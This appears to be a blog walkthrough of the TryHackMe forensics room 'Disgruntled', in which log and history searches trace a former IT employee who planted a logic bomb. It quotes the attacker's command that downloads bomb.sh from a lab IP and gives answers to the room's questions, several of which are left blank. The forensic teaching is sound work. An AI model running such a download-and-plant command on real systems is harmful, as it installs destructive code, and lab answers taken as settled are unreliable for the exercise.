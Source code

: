 ```yaml
---
date: 2025-07-16 16:15:06
layout: post
title: TryHackMe - Disgruntled - Write-Up
subtitle: Use your Linux forensics knowledge to investigate an incident.
description: A walkthrough of the TryHackMe room Disgruntled
image: https://tryhackme-images.s3.amazonaws.com/room-icons/03de138b8dfa8f5b003298c17b73fbd8.png
category: write-up
tags:
  - disgruntled
  - tryhackme
  - write-up
  - walkthrough
  - linux
  - incident-response
  - infosec
  - cybersecurity
  - soc-analyst
author: Michael
paginate: false
---
```

The TryHackMe room Disgruntled can be found [here](https://tryhackme.com/room/disgruntled).

> Hey, kid! Good, you’re here!
>
> Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.
>
> CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

This room will test our ability to navigate through the Linux command line to find evidence of potential system abuse.  We're given only a terminal as our machine:

![](/assets/img/uploads/beginning-terminal.png)

Task 1 was the above introduction.  Let's move on to Task 2!

## Task 2 - Linux Forensics review

![](/assets/img/uploads/linux-forensics-cheatsheet.png)

This task only provides a Linux "cheat sheet" -- very helpful for the upcoming tasks, but doesn't require anything from us.

## Task 3 - Nothing suspicious... So far

> Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.
>
> My advice: Look at the privileged commands that were run. That should get you started.

### The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

We're looking for actions committed with elevated privileges, and in a Linux system, this means looking for uses of the `sudo` command.

Let's start by seeing checking the `sudoers` list to see who has `sudo` permissions:

![](/assets/img/uploads/sudoers-list.png)

The account `cybert` (the name of our the company the former employee worked for) has sudo rights, so let's check for any installations this account may have run.

We can do this by running `grep cybert /var/log/auth.log* | grep install`.  This command checks the authentication logs (`/var/log/auth.log*`) for all references of "cybert" (`grep cybert`), and then takes the results of that command and checks for all references of "install" (`grep install`).

The twice-filtered result directs us to our answer:

![](/assets/img/uploads/apt-install-dokuwiki.png)

**Answer**: `/usr/bin/apt install dokuwiki`

### What was the present working directory (PWD) when the previous command was run?

The above command also gives us the answer to this question:

![](/assets/img/uploads/home-cybert.png)

**Answer**: `/home/cybert`

## Task 4 - Let’s see if you did anything bad

> Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

### Which user was created after the package from the previous task was installed?

To find this answer, we'll search the logs in the same way: `grep cybert /var/log/auth.log* | grep adduser`. This time we're searching for instances of the `adduser` command run by cybert.

![](/assets/img/uploads/it-admin.png)

**Answer**: it-admin

### A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

We can find evidence of the sudoers file being edited by looking for evidence of the `visudo` command: `grep cybert /var/log/auth.log* | grep visudo`.  Looking at the results, we find one instance of cybert running the command, and pull the date from that.

![](/assets/img/uploads/visudo.png)

**Answer**: Dec 28 06:27:34

### A script file was opened using the "vi" text editor. What is the name of this file?

We can find this by looking through the `.bash_history` file of a user.  It *could* be in cybert's home folder, but dollars to donuts we will find evidence of the file in the newly created it-admin's history.  Why else might the account have been created?

And sure enough, look what we find:

![](/assets/img/uploads/vi-bomb.sh.png)

A suspiciously named file, no?

**Answer**: `bomb.sh`

## Task 5 - Bomb has been planted. But when and where?

> That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

### What is the command used that created the file `bomb.sh`?

The answer to this question is found in the line above the answer to the previous question:

![](/assets/img/uploads/curl-bomb.sh.png)

**Answer**: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

### The file was renamed and moved to a different directory. What is the full path of this file now?

We know that `vi` was used to edit the `bomb.sh` file, so we can take a look at it-admin's `.vimhistory` to see what edits were made.

![](/assets/img/uploads/viminfo-bin-os-update.png)

Sure enough, first thing we see is a rename of the file.

**Answer**: `/bin/os-update.sh`

### When was the file from the previous question last modified? (Format: Month Day HH:MM)

**Answer**:

### What is the name of the file that will get created when the file from the first question executes?

**Answer**:

### Task 6 - Following the fuse

> So we have a file and a motive. The question we now have is: how will this file be executed?
>
> Surely, he wants it to execute at some point?

### At what time will the malicious file trigger? (Format: HH:MM AM/PM)

**Answer**:

## Task 7 - Conclusion

> Thanks to you, we now have a good idea of what our disgruntled IT person was planning.
>
> We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.
>
> Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.

## EOF

I really like these rooms which fully commit to a story!  It helps to feel more like a real event.

![](/assets/img/uploads/badge-disgruntled.png)

Tools used: Linux CLI
